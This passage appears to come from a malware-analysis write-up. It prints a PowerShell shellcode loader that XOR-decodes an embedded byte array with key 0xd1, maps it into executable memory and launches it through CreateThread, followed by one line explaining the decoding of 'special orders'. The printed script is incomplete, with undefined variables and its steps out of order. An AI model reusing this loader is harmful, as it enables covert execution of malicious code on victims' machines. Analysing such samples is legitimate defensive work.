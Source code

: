 ```powershell
[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode;

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);
```
Looking at the end of the script, we can see how the `special orders` are unpacked. The `$stage3` string (result of `$stage1` + `$stage2`) is being XORed (through `-bxor`) with the key `0xd1`.
